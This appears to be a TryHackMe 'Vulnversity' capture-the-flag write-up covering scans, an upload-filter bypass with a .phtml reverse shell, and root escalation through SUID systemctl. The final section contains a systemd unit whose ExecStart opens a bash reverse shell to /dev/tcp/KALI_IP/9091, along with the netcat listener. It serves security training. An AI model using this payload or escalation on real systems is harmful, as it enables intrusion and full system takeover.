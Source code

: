 # Vulnversity
 Challenge link: https://tryhackme.com/room/vulnversity 
## IP
10.10.198.229
## Scans
### NMAP
#### Command used:
<code>$ nmap -sC -sV -Pn 10.10.198.229</code>
#### Results
<pre>
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-22 13:07 EDT
Nmap scan report for 10.10.198.229
Host is up (0.15s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2022-04-22T13:08:09-04:00
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
| smb2-time: 
|   date: 2022-04-22T17:08:10
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.46 seconds
</pre>

### GoBuster
#### Command used:
<code>$ gobuster dir -u http://10.10.198.229:3333/ -w /usr/share/wordlists/dirb/common.txt </code>
#### Results

<pre>
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.198.229:3333/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/22 13:43:20 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 294]
/.htaccess            (Status: 403) [Size: 299]
/.htpasswd            (Status: 403) [Size: 299]
/css                  (Status: 301) [Size: 319] [--> http://10.10.198.229:3333/css/]
/fonts                (Status: 301) [Size: 321] [--> http://10.10.198.229:3333/fonts/]
/images               (Status: 301) [Size: 322] [--> http://10.10.198.229:3333/images/]
/index.html           (Status: 200) [Size: 33014]                                      
<b>/internal             (Status: 301) [Size: 324] [--> http://10.10.198.229:3333/internal/]</b>
/js                   (Status: 301) [Size: 318] [--> http://10.10.198.229:3333/js/]      
/server-status        (Status: 403) [Size: 303]                                          
                                                                                         
===============================================================
2022/04/22 13:44:28 Finished
===============================================================
</pre>

## Ports Open
<pre>
21
22
139
445
3128
3333
</pre>

## Exploitation
### BurpSuite 
__ found a post request at internal/ __
"""
Multiple file types seem to be blocked.
Only '.phtml' seems to go through.
"""
#### Triggering payload
"""
After a succesful upload of a php reverse shell masked with the required file type (aka .phtml) , we need to trigger the payload somehow.
we can either use dirb / go buster in  recursive modes or manually poke around discovering <u>http://ip:3333/internal/uploads/payload_name.phtml</u>
<b> Voila! a reverse shell on our listeners!</b>

On enumerating the directories we can see the username is located at <code>/home/</code> which is the expected location. checking the dir we can see "user.txt" which contains the flag.
"""

#### SUID perm. check
##### Command used
<code>find / -type f -perm -4000 2>/dev/null</code>
##### Results
"""
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
"""
### LinPeas
#### Intresting Observations
"""  
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034    # Tough will not use this as this was not the targeted way.
══╣ PHP exec extensions
drwxr-xr-x 2 root root 4096 Jul 31  2019 /etc/apache2/sites-enabled                   
drwxr-xr-x 2 root root 4096 Jul 31  2019 /etc/apache2/sites-enabled
lrwxrwxrwx 1 root root 35 Jul 31  2019 /etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf     

╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid           
---sniped---   
<b>-rwsr-xr-x 1 root root 645K Feb 13  2019 /bin/systemctl</b>

"""

 
### Final Stretch (exploit Systemctl)
#### Payload
"""
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/KALI_IP/9091 0>&1'

[Install]
WantedBy=multi-user.target
"""
"""
After the files to a location that's writable (say /tmp) save it by a name say name.service
then ran:
##### On target
<code>/bin/systemctl enable name.service</code>
##### On Kali
<code>nc -nlvp 9091</code>
##### On target
<code>/bin/systemctl start name</code>

<b>Voila! we have root's flag!</b>
"""

